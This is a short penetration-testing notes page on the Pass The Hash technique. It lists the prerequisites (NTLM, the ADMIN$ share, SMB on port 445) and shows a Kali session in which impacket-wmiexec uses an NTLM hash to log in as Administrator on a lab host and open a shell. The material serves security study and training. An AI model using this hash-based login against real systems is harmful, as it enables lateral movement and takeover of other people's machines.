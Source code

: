 ```yaml
---
description: >-
  Pass The Hash allows an attacker to authenticate with an NTLM hash instead of
  using the plaintext password of a user.
---
```


# Pass The Hash



## Prerequisites

<mark style="color:red;">**NOTE:**</mark> this will not work for Kerberos authentication but only for servers or services using NTLM authentication

* Requires the admin share called **ADMIN$** to be available.
* Requires an SMB connection through the firewall (port 445)

## Lateral Movement - Impacket

```shell-session
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```
